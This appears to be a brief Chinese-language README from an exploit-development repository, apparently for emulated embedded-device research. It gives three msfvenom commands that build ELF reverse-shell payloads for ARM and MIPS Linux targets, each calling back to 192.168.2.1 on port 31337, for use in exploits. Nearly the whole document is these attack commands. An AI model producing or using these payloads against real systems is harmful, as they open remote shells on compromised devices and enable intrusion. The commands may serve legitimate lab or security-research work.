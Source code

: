 # Metasploit reverse shell

使用 Metasploit 生成的反向 shell，在写 exp 时复制到 `system-emu/tools` 目录下使用。

```sh
$ msfvenom -p linux/armle/shell_reverse_tcp LHOST=192.168.2.1 LPORT=31337 -f elf -o msf-armle
$ msfvenom -p linux/mipsle/shell_reverse_tcp LHOST=192.168.2.1 LPORT=31337 -f elf -o msf-mipsle
$ msfvenom -p linux/mipsbe/shell_reverse_tcp LHOST=192.168.2.1 LPORT=31337 -f elf -o msf-mipsbe
```
